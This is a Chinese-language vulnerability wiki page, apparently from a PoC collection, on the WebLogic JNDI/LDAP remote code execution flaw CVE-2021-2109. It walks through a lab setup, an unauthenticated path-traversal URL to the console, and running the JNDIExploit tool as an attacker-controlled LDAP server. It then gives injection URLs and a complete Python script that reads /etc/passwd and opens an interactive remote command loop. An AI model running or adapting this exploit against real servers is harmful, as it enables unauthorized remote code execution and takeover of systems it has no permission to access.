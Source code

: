 # Weblogic LDAP 远程代码执行漏洞 CVE-2021-2109

## 漏洞描述

2021年1月20日，绿盟科技监测发现Oracle官方发布了2021年1月关键补丁更新公告CPU（Critical Patch Update），共修复了329个不同程度的漏洞，其中包括7个影响WebLogic的严重漏洞（CVE-2021-1994、CVE-2021-2047、CVE-2021-2064、CVE-2021-2108、CVE-2021-2075、CVE-2019-17195、CVE-2020-14756），未经身份验证的攻击者可通过此次的漏洞实现远程代码执行。CVSS评分均为9.8，利用复杂度低。建议用户尽快采取措施，对上述漏洞进行防护。

## 漏洞影响

> [!NOTE]
>
> WebLogic Server 10.3.6.0.0
>
> WebLogic Server 12.1.3.0.0
>
> WebLogic Server 12.2.1.3.0
>
> WebLogic Server 12.2.1.4.0
>
> WebLogic Server 14.1.1.0.0

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2020-14882
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![](image/weblogic-1.png)

## 漏洞复现

访问一下URL http://xxx.xxx.xxx.xxx:7001/console/css/%252e%252e%252f/consolejndi.portal

![](image/weblogic-6.png)

如果有此页面未授权可访问，且在影响范围内则可能出现漏洞

下载漏洞攻击需要的 LDAP启动脚本

[下载链接](https://github.com/feihong-cs/JNDIExploit/releases/tag/v.1.11)

![](image/weblogic-7.png)

下载到服务器上启动

```shell
java -jar JNDIExploit-v1.11.jar -i xxx.xxx.xxx.xxx (服务器地址)
```

![](image/weblogic-8.png)

> [!NOTE]
>
> 部分服务器注意放行端口

然后配合 Weblogic未授权范围 命令执行

```
/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

> [!NOTE]
>
> 注意 ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho 这里 LDAP服务器地址第三个分隔符号为 ;

![](image/weblogic-9.png)

登录后台可使用此POC，未授权的话用上面的

```
/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://xxx.xxx.xxx;xxx:1389/Basic/WeblogicEcho;AdminServer%22)
```

## 漏洞利用POC

> [!NOTE]
>
> 注意参数格式 Ldap >>> ldap://xxx.xxx.xxx;xxx:1389 中的分号
>
> 如果使用其他的利用Ldap服务请自行更改 POC关键字
>
> 此POC仅仅检验有未授权的情况

```python
import requests
import sys
import re
requests.packages.urllib3.disable_warnings()
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mVersion: Weblogic 多个版本                                           \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
    print('+  \033[36mLDAP        >>> ldap://xxx.xxx.xxx;xxx:1389                         \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if "root:" in response.text:
            print("\033[32m[o] 目标{}存在漏洞 \033[0m".format(target_url))
            print("\033[32m[o] 响应为:\n{} \033[0m".format(response.text))
        else:
            print("\033[31m[x] 命令执行失败 \033[0m")
            sys.exit(0)
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

def POC_2(target_url, ldap_url, cmd):
    vuln_url = target_url + "/console/css/%252e%252e/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22{}/Basic/WeblogicEcho;AdminServer%22)".format(ldap_url)
    print('\033[36m[o] 正在请求: {}'.format(vuln_url))
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "cmd": cmd
    }
    try:
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 响应为:\n{} \033[0m".format(response))
    except Exception as e:
        print("\033[31m[x] 请检查参数和Ldap服务是否正确 \033[0m", e)

if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    ldap_url = str(input("\033[35mLdap >>> \033[0m"))
    POC_1(target_url, ldap_url, cmd="cat /etc/passwd")

    while True:
        cmd = input("\033[35mCmd >>> \033[0m")
        if cmd == "exit":
            sys.exit(0)
        else:
            POC_2(target_url, ldap_url, cmd)

```

![](image/weblogic-10.png)

## Goby & POC

> [!NOTE]
>
> Weblogic_LDAP RCE_CVE-2021-2109
>
> 注意漏洞验证 Ldap参数同样跟上面的POC一样格式，注意分号

![](image/weblogic-11.png)

![](image/weblogic-12.png)